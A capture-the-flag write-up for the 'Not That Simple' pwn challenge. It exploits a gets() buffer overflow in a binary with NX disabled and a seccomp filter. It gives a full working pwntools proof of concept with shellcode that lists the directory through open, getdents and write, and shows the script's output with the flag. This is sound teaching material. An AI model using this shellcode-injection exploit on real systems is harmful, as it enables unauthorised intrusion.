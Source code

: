 ```yaml
---
grand_parent: Categories
parent: Pwn
title: Not That Simple
nav_order: 1
---
```


# Not That Simple
```
You didn't think it would be that easy... right?

NOTE: The flag is a filename in the current working directory of the server. See the docker for reference.
```

## Challenge
> TL;DR: Shellcode injection

From `checksec`, we know that NX is disabled. So, we can perform shellcode injection.

Ghidra's decompiled main()
``` c
undefined8 main(void)

{
  char local_58 [80];
  
  install_seccomp();
  printf("Oops, I\'m leaking! %p\n",local_58);
  puts(&DAT_00402050);
  printf("> ");
  fflush(stdout);
  gets(local_58);
  puts("Hah! You didn\'t seriously think it was that simple?");
  return 0;
}
```

After performing static analysis, we found that the binary is vulnerable to buffer overflow:
```
gets(local_58);
```

Interesting, we notice that the binary uses seccomp. Seccomp restricts what syscalls we can use.

``` bash
$ seccomp-tools dump ./notsimple 
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x0b 0xc000003e  if (A != ARCH_X86_64) goto 0013
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x09 0x00 0x40000000  if (A >= 0x40000000) goto 0013
 0004: 0x15 0x08 0x00 0x0000003b  if (A == execve) goto 0013
 0005: 0x15 0x07 0x00 0x00000142  if (A == execveat) goto 0013
 0006: 0x15 0x06 0x00 0x00000101  if (A == openat) goto 0013
 0007: 0x15 0x05 0x00 0x00000003  if (A == close) goto 0013
 0008: 0x15 0x04 0x00 0x00000055  if (A == creat) goto 0013
 0009: 0x15 0x03 0x00 0x00000086  if (A == uselib) goto 0013
 0010: 0x15 0x02 0x00 0x00000039  if (A == fork) goto 0013
 0011: 0x15 0x01 0x00 0x0000003a  if (A == vfork) goto 0013
 0012: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0013: 0x06 0x00 0x00 0x00000000  return KILL
```

So, we cannot run `execve`, `execveat`, `openat`, `close`, `creat`, `uselib`, `fork` and `vfork` syscalls.

From `setup.sh` file, we know that the flag is the filename:
``` bash
#!/bin/sh
service xinetd start
cd /pwn
touch FILE_6768585 FILE_5786754 FILE_76498904 FILE_6784577 FILE_eb94e79028 FILE_6758838 redpwn_absorption_plan.txt FILE_1d4a95be0c340478af4141d1658ddd9a304e0bbdf7402526f3fb6306b261309f8ff1183a907ca57d73fa662f8d52b2dea7986a7a195c2ae962c07d77dd8f684e7f9e5fe3ac575aafeaea1b09436ea3217d143e37584fc1d2a1e085535736fb81329fb093 rarctf{f4k3_l0c4l_fl4g}
sleep infinity
```

So, we can call `getdents` syscall to list the files in the directory.

Idea of exploit: Spray the buffer and overwrite the ret address to point to the shellcode. The shellcode calls `getdents` syscall which lists files in the directory.

In our case, we placed the shellcode after the ret address.

The shellcode first calls `open('.', 0, 0)` (Syscall no. 2 is `open`). The syscall returns a file descriptor (fd) which can be used in `getdents()`. Then, the shellcode calls `getdents(fd, esp, 0x3210)` (Syscall no. 78 is `getdents`). So, it reads the directory (pointed by fd) and stores it into a buffer of size 0x3210. On success, the syscall returns the number of bytes read. Lastly, the shellcode calls `write(1, rsp, <no. of bytes read>)` (Syscall no. 1 is `write`). This syscall prints the content stored in the buffer to stdout.

Working POC:
``` python
from pwn import *

# badchars: \x0a
getdents = asm('''
    xor rax, rax
	push rax
	push 0x2E

	mov al, 2      
	mov rdi, rsp   
	xor rsi, rsi 
	xor rdx, rdx 
	syscall	

	mov rdi,rax 		
	xor rdx,rdx
	xor rax,rax
	mov dx, 0x3210 	
	sub rsp, rdx 	
	mov rsi, rsp 	
	mov al, 78 	
	syscall

	xchg rax,rdx

	xor rax, rax
	xor rdi,rdi
	
	inc eax
	inc edi
	mov rsi, rsp
	syscall
''', arch='amd64')

#r = process('./notsimple')
#pause()
r = remote('193.57.159.27', 46343)
r.recvuntil(b'leaking! ')
arr_addr = int(r.recvuntil(b'\n').strip(), 0)
print(hex(arr_addr))
r.recvuntil(b'> ')
payload = b'A' * 80
payload += b'A' * 8
payload += p64(arr_addr + 80 + 8 + 8)
payload += getdents
r.sendline(payload)
r.interactive()
```

Output of the script:
``` bash
$ python3 pwn3.py 
[+] Opening connection to 193.57.159.27 on port 46343: Done
0x7fff1b2f5d90
[*] Switching to interactive mode
[+] Opening connection to 193.57.159.27 on port 46343: Done
0x7fff1b2f5d90
[*] Switching to interactive mode
\x1b\x13\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x04    
\x04\x00\x00\x00\x00\x00\x00\x00.\x00\x00\xb6r\x0e\x00\x00\x03\x00\x00\x00 \x00ILE_6768585\x00\xb8r\x0e\x00\x00\x04\x00\x00\x00 \x00ILE_5786754\x00\xb9r\x0e\x00\x00\x05\x00\x00\x00(\x00ILE_76498904\x00\x00\x00\x0\xbar\x0e\x00\x00\x06\x00\x00\x00 \x00ILE_6784577\x00\xbbr\x0e\x00\x00\x07\x00\x00\x00(\x00ILE_eb94e79028\x00\x00\x0\xbcr\x0e\x00\x0\x00\x00\x00\x00\x00ILE_6758838\x00\xbdr\x0e\x00\x00    \x00\x00\x00\x00\x00edpwn_absorption_plan.txt\x00\x00\xber\x0e\x00\x00
\x00\x00\x00\x00\x00ILE_1d4a95be0c340478af4141d1658ddd9a304e0bbdf7402526f3fb6306b261309f8ff1183a907ca57d73fa662f8d52b2dea7986a7a195c2ae962c07d77dd8f684e7f9e5fe3ac575aafeaea1b09436ea3217d143e37584fc1d2a1e085535736fb81329fb093\x00\x00\x00\x0\xbfr\x0e\x00\x00\x0b\x00\x00\x00X\x00arctf{h3y_wh4ts_th3_r3dpwn_4bs0rpti0n_pl4n_d01n6_h3r3?_4cc9581515}\x0\x1c    \x00\x00\x00\x00\x00\x00\x00\x00otsimple\x00\x0Segmentation fault
```

Flag: `rarctf{h3y_wh4ts_th3_r3dpwn_4bs0rpti0n_pl4n_d01n6_h3r3?_4cc9581515}`

# Resources
https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/

https://github.com/t00sh/assembly/blob/master/shellcodes/linux/x86-64/ls_syscall.asm